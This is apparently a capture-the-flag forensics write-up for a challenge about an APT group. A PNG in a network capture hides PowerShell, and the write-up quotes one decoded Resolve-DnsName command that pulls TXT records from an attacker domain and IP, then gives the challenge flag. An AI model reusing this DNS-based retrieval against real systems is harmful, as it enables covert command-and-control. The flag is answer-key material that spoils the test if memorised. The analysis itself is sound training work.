


Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.

The first thing we observe when we open the pcap file is there is a suspicious png file being transmitted. By downloading it and examining it with a hex editor, we find powershell code. By decoding the powershell we see that some of the information is downloaded by the resolve dns command:
Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
After decoding said command and getting the information from the dns traffic we decrypt and get the flag
HTB={y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
